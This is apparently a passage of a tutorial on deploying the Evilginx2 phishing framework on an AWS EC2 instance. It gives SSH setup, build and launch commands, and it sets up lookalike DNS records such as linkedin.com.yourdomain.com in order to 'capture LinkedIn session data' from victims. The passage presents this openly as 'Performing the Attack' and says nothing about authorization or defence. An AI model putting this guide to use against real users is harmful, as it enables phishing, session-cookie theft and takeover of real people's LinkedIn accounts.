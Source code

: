 ```
chmod 400 my-key-pair.pem
```

After we set permission we can execute following command to SSH to our instance:

```
ssh -i /path/my-key-pair.pem my-instance-user-name@my-instance-public-dns-name (your EC2 instance IP)
```

Now, let's jump to the installation of Evilginx2. 
In order to compile from source, make sure you have installed GO of version at least 1.14.0 (get it from [here](https://golang.org/doc/install) and follow the instructions).

When you have GO installed, type in the following:

```
sudo apt-get -y install git make
git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2
make
```
You can now either run evilginx2 from local directory like:
```
sudo ./bin/evilginx -p ./phishlets/
```
or install it globally:

```
sudo make install
sudo evilginx
```

### Configuring your domain settings
We want to get a little bit sneaky right here, so we are going to create an A record that will look like real DNS name. For example: linkedin.com.yourdomain.com

As we are going to capture LinkedIn session data, we will need following DNS records.
Configure your DNS settings to include following A records:

| Name                         | Type             | Target           |
|:-----------------------------|:-----------------|-----------------:|
| linkedin.com                 | A                | YOUR INSTANCE IP |
| www.linkedin.com             | A                | YOUR INSTANCE IP |



## Performing the Attack

Now as everything is set up, we are ready to launch our campaign.

Run Evilginx2 with command:
```
sudo ./bin/evilginx -p ./phishlets/
```

